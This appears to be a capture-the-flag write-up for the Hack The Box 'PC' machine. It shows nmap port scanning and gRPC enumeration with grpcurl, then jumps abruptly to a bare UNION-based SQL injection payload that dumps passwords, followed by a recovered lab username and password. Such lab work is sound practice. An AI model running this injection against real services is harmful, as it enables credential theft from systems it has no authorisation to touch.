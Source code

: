# Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.11.214 pc.htb
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV pc.htb
```

We got this result
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

By googling, we found out that the port 50051 is generally used for gRPC service

# gRPC (port 50051)
There is an existing tool in Go language to communicate with gRPC service named grpcurl : https://github.com/fullstorydev/grpcurl
So let's try it :
```bash
$ /home/kali/go/bin/grpcurl -plaintext pc.htb:50051 describe                                         
SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}
grpc.reflection.v1alpha.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1alpha.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1alpha.ServerReflectionResponse );
}
```


80 union SELECT group_concat(password) from accounts

sau:HereIsYourPassWord1431
